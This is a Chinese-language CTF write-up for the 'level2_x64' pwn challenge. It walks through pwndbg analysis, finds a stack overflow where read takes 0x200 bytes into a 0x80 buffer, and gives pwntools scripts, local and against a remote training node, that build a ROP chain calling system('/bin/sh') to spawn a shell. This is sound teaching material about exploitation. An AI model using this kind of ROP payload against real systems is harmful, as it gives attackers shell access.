 `pwngdb` 查看 `checksec`，值开了 NX 保护

```
pwndbg> checksec
[*] '/home/kali/桌面/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`info functions` 查询函数，发现 `main` 函数

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400488  _init
0x00000000004004c0  system@plt
0x00000000004004d0  read@plt
0x00000000004004e0  __libc_start_main@plt
0x00000000004004f0  __gmon_start__@plt
0x0000000000400500  _start
0x0000000000400530  deregister_tm_clones
0x0000000000400570  register_tm_clones
0x00000000004005b0  __do_global_dtors_aux
0x00000000004005d0  frame_dummy
0x00000000004005f6  vulnerable_function
0x0000000000400620  main
0x0000000000400650  __libc_csu_init
0x00000000004006c0  __libc_csu_fini
0x00000000004006c4  _fini
```

`disassemble main` 查看 `main` 函数

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000400620 <+0>:     push   rbp
   0x0000000000400621 <+1>:     mov    rbp,rsp
   0x0000000000400624 <+4>:     sub    rsp,0x10
   0x0000000000400628 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x000000000040062b <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x000000000040062f <+15>:    mov    eax,0x0
   0x0000000000400634 <+20>:    call   0x4005f6 <vulnerable_function>
   0x0000000000400639 <+25>:    mov    edi,0x4006e0
   0x000000000040063e <+30>:    call   0x4004c0 <system@plt>
   0x0000000000400643 <+35>:    leave
   0x0000000000400644 <+36>:    ret
End of assembler dump.
```

未发现明显漏洞点，查看 `vulnerable_function` 函数

```
pwndbg> disassemble vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x00000000004005f6 <+0>:     push   rbp
   0x00000000004005f7 <+1>:     mov    rbp,rsp
   0x00000000004005fa <+4>:     add    rsp,0xffffffffffffff80
   0x00000000004005fe <+8>:     mov    edi,0x4006d4
   0x0000000000400603 <+13>:    call   0x4004c0 <system@plt>
   0x0000000000400608 <+18>:    lea    rax,[rbp-0x80]
   0x000000000040060c <+22>:    mov    edx,0x200
   0x0000000000400611 <+27>:    mov    rsi,rax
   0x0000000000400614 <+30>:    mov    edi,0x0
   0x0000000000400619 <+35>:    call   0x4004d0 <read@plt>
   0x000000000040061e <+40>:    leave
   0x000000000040061f <+41>:    ret
End of assembler dump.
```

发现关键函数 `system` 和 `read`，`x/s 0x4006d4` 查看 `system` 的参数 `0x4006d4`

```
pwndbg> x/s 0x4006d4
0x4006d4:       "echo Input:"
```

意思是调用 `system` 函数输出 `Input:`

`read` 函数可读入 `0x200` 个字节而栈中仅 `0x80` 个字节，此处存在栈溢出

查找 `/bin/sh` 字符串

```
pwndbg> search '/bin/sh'
Searching for value: '/bin/sh'
level2_x64      0x400a90 0x68732f6e69622f /* '/bin/sh' */
level2_x64      0x600a90 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x7ffff7f5b04f 0x68732f6e69622f /* '/bin/sh' */
```

存在 `/bin/sh` 字符串和 `system` 函数，可以构建 ROP 脚本

使用 `ROPgadget` 查找 `pop rdi`（为了清空 `rdi` 寄存器方便函数传参）

```
┌──(kali㉿kali)-[~/桌面]
└─$ ROPgadget --binary ./level2_x64 | grep 'pop rdi'               
/usr/local/bin/ROPgadget:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('ROPGadget==7.4', 'ROPgadget')
0x00000000004006b3 : pop rdi ; ret
```

编写 `payload` 脚本，`payload` 处先占满栈中的 `0x80` 个字节的空间，然后用 `0x8` 个字节覆盖 `rbp`，接下来用 `pop rdi; ret` 清空 `rdi` 寄存器中的值（因为 `x64` 程序的前六个参数借用 `rdi`、`rsi`、`rdx`、`r10`、`r8`、`r9` 这六个寄存器传参，所以清空 `rdi` 中的值方便之后传参），再传入 `/bin/sh` 字符串的地址，最终调用 `system` 函数，实现函数 `system('/bin/sh')` 的调用

```python
# 本地程序调试
from pwn import *
r = process('/home/kali/桌面/level2_x64')

system = 0x40063e
binsh = 0x400a90
poprdi = 0x4006b3

payload = b'a' * 0x80 + b'b' * 8 + p64(poprdi) + p64(binsh) + p64(system) 

r.sendlineafter(b'Input:\n', payload)
r.interactive()
```

```python
# 远程连接获取 flag
from pwn import *
r = remote("node5.buuoj.cn", 29271)

system = 0x40063e
binsh = 0x400a90
poprdi = 0x4006b3

payload = b'a' * 0x80 + b'b' * 8 + p64(poprdi) + p64(binsh) + p64(system) 

r.sendlineafter(b'Input:\n', payload)
r.interactive()
```

获得 `flag`

![image.png](https://gitee.com/chpocenkey/images/raw/master/20240512202612.png)